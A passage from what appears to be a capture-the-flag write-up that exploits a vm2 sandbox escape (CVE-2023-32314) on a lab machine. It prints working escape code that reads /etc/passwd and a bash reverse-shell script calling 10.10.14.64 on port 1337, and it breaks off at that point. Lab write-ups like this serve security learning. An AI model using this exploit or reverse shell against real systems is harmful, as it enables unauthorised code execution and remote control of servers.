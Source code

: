 we have an about us page let's explore that first

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427891276/fb2a82b8-0fbf-460c-ba88-6f6937a6bac0.png align="center")

As we can see here It says it is using the `vm2 library` to run Javascript code in a sandbox environment. Doing some Google research we found a CVE

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427888688/91271d38-4017-4032-adfc-50ef871e5e00.png align="center")

So here we have found [CVE-2023-32314](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427885412/a96127e0-f852-493e-b324-b38adba7f5fc.png align="center")

Moving to the Editor page and then trying to exploit the above code

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("cat /etc/passwd").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

So we modified the exploit to see if we can have a look in the passwd file

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427881045/129eb1f2-15f7-4a3d-a498-9d796a24b92a.png align="center")

And yes, we can see the content of the `/etc/passwd` file now let's create a bash script and try to get a reverse shell.

```bash
sudo nano shell.sh
```

```bash
#! /bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.64/1337 0>&1'
```
